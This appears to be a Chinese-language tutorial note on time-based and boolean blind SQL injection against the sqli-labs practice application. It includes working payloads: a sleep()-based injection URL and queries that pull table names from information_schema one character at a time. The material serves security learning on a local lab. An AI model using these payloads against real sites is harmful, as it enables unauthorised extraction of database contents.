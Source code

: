 Left()得到字符串左部指定个数的字符

Left ( string, n ) string为要截取的字符串，n为长度。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/5fc2512b47444fd4a531725e7503a08f.png)


通过以上函数可以来判断数据信息：

http://localhost/sqli-labs-master/Less-2/index.php?id=1%20and%20sleep(if(mid(database(),1,1)=%27t%27,0,5))

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/8f63d5b742564ae18fda98666bc7df98.png)


推荐使用ASCII码

1.防止引号 ‘  “ 转义

2.方便以后工具的使用


使用ascii函数（）

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/6eea9e36b99d426184f938a0d29d5c85.png)


结合场景使用：

select * from t1 where id=1 and if(ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=120,sleep(3),0);

select * from t1 where id=1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=116,sleep(2),0);

# 

```
SQL注入之布尔盲注
```



### 1.什么是布尔盲注？

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。

返回False时：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/a9e2622c9ab4426eb95db68e9bc76ae2.png)

返回True时：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/61d6681f946648d39f5c46ce47d0285a.png)


### 2.如何进行布尔盲注？

注入流程：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646720755000/65e35005c1d24fb085b94bf42339e5df.png)
